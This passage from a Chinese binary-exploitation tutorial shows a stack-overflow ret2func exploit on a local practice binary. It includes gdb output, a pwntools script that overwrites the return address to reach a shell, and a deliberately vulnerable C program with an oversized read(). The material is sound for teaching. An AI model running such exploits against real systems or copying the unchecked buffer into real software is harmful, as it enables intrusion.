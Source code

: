 
buf 0x80 | 
---|
rbp | 
return address | 

所以要overwrite return address为callsystem()函数的地址，需要136(**0x80+8**)个占位字节+callsystem()的地址。

查看callsystem()的地址
```shell
gdb-peda$ p &callsystem
$1 = (<text variable, no debug info> *) 0x4005bd <callsystem>
gdb-peda$ x/3i 0x4005bd
   0x4005bd <callsystem>:	push   rbp
   0x4005be <callsystem+1>:	mov    rbp,rsp
   0x4005c1 <callsystem+4>:	mov    edi,0x4006c0

```
编写exp
```python
#!/usr/bin/python
#coding:utf-8
from pwn import *

p = process('./vuln1')
callsystem = 0x4005bd
payload = "A" * 136 + p64(callsystem)
p.send(payload)
p.interactive()
```
结果
```bash
python exp.py 
[+] Starting local process './vuln1': pid 7390
[*] Switching to interactive mode
Hello, World
$ id
uid=0(root) gid=0(root) 组=0(root)

```

---

#### 使用工具寻找gadgets
x64的参数会保存在寄存器中，所以需要找一些类似于`pop rdi; ret`这样的gadget，借助工具如ROPgadget查找会更加快捷方便。

再用一个简单的例子演示：
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void *handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n", dlsym(handle, "system"));
    fflush(stdout);
}

void vulnerable_function()
{
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char **argv)
```